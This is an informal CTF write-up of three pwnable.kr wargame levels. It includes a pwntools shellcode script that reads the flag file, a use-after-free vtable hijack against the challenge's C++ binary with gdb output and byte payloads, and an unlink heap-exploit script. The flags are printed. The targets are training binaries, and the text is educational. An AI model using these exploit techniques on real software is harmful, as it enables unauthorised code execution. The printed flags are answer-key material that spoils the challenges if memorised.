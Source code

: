  # LEVEL - asm
here we had to write a asm x64 shell script that will open the 
flag read from it and then will write the content to sdtout so instead 
of writing all the assembly we can use pwntools shellcraft that will 
write all the asambly for us that's the code i used to get the flag:
```
from pwn import *
context.arch = 'amd64'
p= remote('pwnable.kr',9026)
p.recvuntil(b'shellcode:')

send = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

send += shellcraft.read('rax','rsp',0x50)

send += shellcraft.write(1,'rsp',0x50)

p.send(asm(send))
get = p.recvline().decode()
print(get)
```
here we conect to pwnable.kr in port 9026 we use shellcraft to make the assembly open code we try to open the flag ( the flag name is relly long)
and than we add to the nessage we will send to the sever to get the flag the assembly cod e of read we use ax as the file discreptor becouse its the register where the return verbels are stored in we store the content of the flag in the stack so we use sp we read 50 byts and than we write what we got from the flag to stdout and in the end we get the flag

 # LEVEL - uaf
 in this level we had to use the mthod use-after-free where we free some space in the heap and than we aloccate memory in the size of the mempry we freed and this memory will go to the same place in the heap here is the code off the program :
 ```
 class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

 int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                       case 1:
                        m->introduce();
                        w->introduce();
                        break;
                       case 2:
                        len = atoi(argv[1]);
                        data = new char[len];
                        read(open(argv[2], O_RDONLY), data, len);
                        cout << "your data is allocated" << endl;
                        break;
                       case 3:
                        delete m;
                        delete w;
                        break;
                       default:
                        break;
                }
        }

        return 0;
}
 ```

so we see that we alocate at the start memory foe the man and women objects and in the loop we can free this memory and we also cat alocate new memory for a string 
when we disassemble the main using gdb we see:

```
mov    rax,QWORD PTR [rbp-0x38]
mov    rax,QWORD PTR [rax]
add    rax,0x8
mov    rdx,QWORD PTR [rax]
mov    rax,QWORD PTR [rbp-0x38]
mov    rdi,rax
call   rdx
```


and this is the place where man and women are stored:

```
            addres         heap       vtabel
man - 0x7fffffffde28 —▸ 0x614ee0 —▸ 0x401570 —▸ 0x40117a (Human::give_shell())
women - 0x7fffffffde30 —▸ 0x614f30 —▸ 0x401550 —▸ 0x40117a (Human::give_shell()) 
```


so we see they point to thire vtabel and the code add 8 to the v tabel to get to the right function with is introduce() but what we can do is free the memory of man and women and than we will alocate memory for the new string in opthion 2 in the swith statment and that string will hold the vtabel addres-8 and this new alocated memory will go to the heap addres of man so when we will try to execute function introduce() the program will go strait to the start of the vtabel and the start of the vtabel holds the function give_shell() so we will get the shell and get the flag 

so i used python2 -c "print('\x68\x15\x40\x00\n')" as the string to pass to the new alocated string and the size i sent was 4 becuse the size of the addres is 4 bytes(./uaf 4 python2 -c "print('A' * 96 + '\x68\x15\x40\x00\n')")

the flag is: yay_f1ag_aft3r_pwning

 # LEVEL - unlink
 
 this is the code of the unlink level

```
from pwn import *

p = process("/home/unlink/unlink")


p.recvuntil("leak:")
stack = int(p.recvline().decode()[1:-1],16)
p.recvuntil("leak:")
heap = int(p.recvline().decode()[1:-1],16)

send = b'A' * 16 + p32(heap+36) + p32(stack+16) + b'\xeb\x84\x04\x08'

p.sendline(send)
p.interactive()
```
the flag : conditional_write_what_where_from_unl1nk_explo1t
